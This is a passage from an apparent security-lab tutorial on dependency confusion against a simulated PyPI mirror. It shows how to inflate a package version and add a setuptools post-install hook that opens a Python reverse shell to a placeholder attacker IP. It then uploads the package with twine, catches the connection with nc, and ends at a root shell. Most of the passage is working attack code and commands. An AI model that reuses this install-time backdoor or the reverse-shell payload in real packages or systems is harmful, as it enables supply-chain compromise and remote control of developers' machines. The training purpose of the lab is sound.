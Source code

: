 We also updated the version of our package to ensure that we win the dependency confusion race:

```python
VERSION = 'v9000.0.2'
```

Next, we introduced a new function that will work as a post-installation hook to run a reverse shell for us. Remember to add your AttackBox or VPN IP:

```python
class PostInstallCommand(install):
    def run(self):
        install.run(self)
        print ("Hello World from installer, this proves our injection works")
        os.system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKBOX_IP",8080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])\'')
```

Lastly, we hook the post-installation process in our setup configuration:

```python
cmdclass={
        'install': PostInstallCommand
    },
```

Now that we have created the package, it is time to build it and upload it to the external PyPI repo. We can use the following command to build our package:

`python3 setup.py sdist`

Once built, our Pip package will be available under the dist folder and can be uploaded to the Pypi repo using twine:

`twine upload dist/datadbconnect-9000.0.2.tar.gz --repository-url http://external.pypi-server.loc:8080`

If you are asked for credentials, just leave them empty. You can also safely ignore the error and warning messages as long as the final output shows the package upload reaching 100%. Just a reminder again that we are simulating an external PyPI repo to not break their terms of service. If this were a real attack, the package would be uploaded to PyPI's main [repo](https://pypi.org/). Let's start a listener for our shell:

`nc -lvp 8080`

We can test the code execution of our package by installing it directly ourselves:

`pip3 install datadbconnect --trusted-host external.pypi-server.loc --index-url http://external.pypi-server.loc:8080 --verbose`

You should see the print line in the output of the installation command and see that pip freezes when you get a reverse shell connection:

AttackBox Terminal

```shell-session
[thm@thm]$ nc -lvp 8080
Listening on 0.0.0.0 8080
Connection received on localhost 50098
$ whoami
root
```
